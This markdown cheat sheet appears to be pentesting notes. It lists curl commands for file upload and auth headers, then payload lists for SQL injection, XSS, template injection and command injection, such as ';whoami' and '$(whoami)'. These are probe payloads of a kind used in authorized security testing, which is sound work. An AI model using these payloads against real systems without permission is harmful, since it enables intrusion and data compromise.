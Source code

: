 #### POST - Send File
```sh
curl -X POST <url> -d @<path-to-file>
curl -X POST <url> -F @<path-to-file>  # As form encoded
curl -X POST <url> --data-binary @<path-to-file>  # Use this if file is corrupted
```

#### POST - Basic Auth
```sh
curl -X POST <url> --user "<user>:<password>"
curl -X POST <url> -H "Authorization: Basic $(echo -n "<user>:<pass>" | base64)"
curl -X POST <url> -H "Authorization: Bearer <token>"
```

### Testing Parameters
#### SQL Injection
```sql
'"`) or 'a' = 1;
'"` or 1 = 1;
sleep(5)#
or sleep(5)#
;waitfor delay '0:0:5'--
" or pg_sleep(5)--
```

#### XSS
```html
<script>alert(document.domain)</script>
<img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
`"'><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
/><img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
```

#### Template Injection
```twig
4*4
{{4*4}}
${4*4}
{4*4}
<%= 4*4 %>
```

#### RCE
```sh
os.system('<cmd>')
T(java.lang.Runtime).getRuntime().exec("<cmd>");
echo exec("<cmd>");
echo `<cmd>`;
<!--#exec cmd="<cmd>" -->
whoami
$(whoami)
;whoami
||whoami
&&whoami
```
